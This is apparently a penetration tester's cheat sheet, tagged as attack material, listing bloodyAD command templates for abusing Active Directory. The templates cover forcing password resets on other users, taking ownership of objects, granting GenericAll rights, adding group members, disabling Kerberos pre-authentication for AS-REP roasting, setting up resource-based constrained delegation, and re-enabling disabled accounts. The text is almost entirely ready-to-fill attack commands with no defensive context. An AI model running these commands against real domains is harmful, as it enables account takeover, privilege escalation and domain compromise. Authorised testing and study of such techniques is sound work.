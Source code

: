 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## change password / set password
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set password '<target_user>' '<new_passwd|Password123!>'
```

## Get writable 
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set owner '<target_obj>' '<our_acc>'
```

## Add GenericAll 
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add genericAll '<target_obj>' '<our_acc>'
```

## Add group member 
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add groupMember '<group>' '<member>'
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac '<target_obj>' -f DONT_REQ_PREAUTH
```

## Add RBCD
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add rbcd '<target_obj>' '<service_acc>'
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd' remove uac 'account' -f ACCOUNTDISABLE
```
